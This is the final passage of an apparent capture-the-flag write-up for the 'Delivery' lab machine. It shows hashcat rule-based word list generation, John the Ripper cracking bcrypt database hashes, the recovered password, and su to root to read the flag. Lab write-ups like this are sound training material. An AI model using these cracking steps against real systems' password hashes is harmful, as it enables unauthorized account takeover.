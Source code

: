    $ hashcat --force dic -r /usr/share/hashcat/rules/best64.rule --stdout > dic_hc

We pass this variation dictionary to `john` with the database hashes, and found
a password.

    :::text
    $ john hash -w=dic_hc
    Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
    Use the "--format=bcrypt-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 7 password hashes with 7 different salts (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 1024 for all loaded hashes
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    PleaseSubscribe!21 (?)
    Warning: Only 5 candidates left, minimum 24 needed for performance.
    1g 0:00:00:02 DONE (2021-02-13 17:19) 0.3424g/s 26.36p/s 182.8c/s 182.8C/s asP..PeSubs

We use this password to long as root on the box and get the final flag.

    :::text
    maildeliverer@Delivery:~$ su
    Password:
    root@Delivery:/home/maildeliverer# cd
    root@Delivery:~# cat /root/root.txt
    09679395029c940e9acea1ceab2cf76a

# Wrapping up

A really interesting an realistic box. There is no technical vulnerability or
exploit to use here. Just reading the applications and understanding what is
needed and found a way to achieve our attacker goal.

